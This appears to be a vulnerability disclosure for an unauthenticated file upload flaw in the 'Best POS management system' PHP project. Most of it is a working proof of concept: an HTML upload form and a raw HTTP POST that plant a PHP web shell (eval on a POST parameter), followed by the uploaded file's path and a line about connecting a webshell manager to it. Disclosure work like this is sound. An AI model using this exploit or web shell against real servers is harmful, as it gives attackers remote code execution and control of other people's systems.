



The Best pos management system has a foreground file upload vulnerability that could be exploited by an attacker to upload malicious files without authentication, thereby compromising or exploiting the server.


Source code address：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html


The vulnerability is located in the /kruxton/admin_class.php file, from 164 lines of code to 167 roughly means that the uploaded file type is not verified, the original file name is retained and the time stamp is added to the file name, and the uploaded file will be saved under assets/uploads/.




Vulnerability verification：

Mode one：

Construct the upload.html page upload

```
<!DOCTYPE html>
<html>
<head>
    <title>Kruxton Bristo 文件上传</title>
</head>
<body>
    <h2>网站设置上传</h2>
    <form id="uploadForm" 
          action="http://192.168.80.152/kruxton/kruxton/ajax.php?action=save_settings" 
          method="POST" 
          enctype="multipart/form-data">
        
        <div>
            <label>名称:</label>
            <input type="text" name="name" value="Kruxton Bristo By Mayuri K">
        </div>

        <div>
            <label>邮箱:</label>
            <input type="email" name="email" value="mayuri.infospace@gmail.com">
        </div>

        <div>
            <label>联系方式:</label>
            <input type="text" name="contact" value="9000000000">
        </div>

        <div>
            <label>关于我们:</label><br>
            <textarea name="about" rows="6" cols="50"><p>Kruxton Bristo By Mayuri K</p><p data-f-id="pbf" style="text-align: center; font-size: 14px; margin-top: 30px; opacity: 0.65; font-family: sans-serif;">Powered by <a href="https://www.froala.com/wysiwyg-editor?pb=1" title="Froala Editor">Froala Editor</a></p></textarea>
        </div>

        <div>
            <label>上传文件:</label>
            <input type="file" name="img">
        </div>

        <button type="submit">提交设置</button>
    </form>

</body>
</html>

```


Mode two：

Send the data packet directly to upload, the status code is 302, but the server still successfully uploaded the file

```
POST /kruxton/kruxton/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.80.152
Content-Length: 918
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylSEcBbLB2M9fZfsG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="name"

Kruxton Bristo By Mayuri K
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="email"

mayuri.infospace@gmail.com
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="contact"

9000000000
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="about"

<p>Kruxton Bristo By Mayuri K</p><p data-f-id="pbf" style="text-align: center; font-size: 14px; margin-top: 30px; opacity: 0.65; font-family: sans-serif;">Powered by <a href="https://www.froala.com/wysiwyg-editor?pb=1" title="Froala Editor">Froala Editor</a></p>
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="img"; filename="kru.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

------WebKitFormBoundarylSEcBbLB2M9fZfsG--

```




Use any webshell administration tool to connect

The path is：http://192.168.80.152/kruxton/kruxton/assets/uploads/1741451460_kru.php




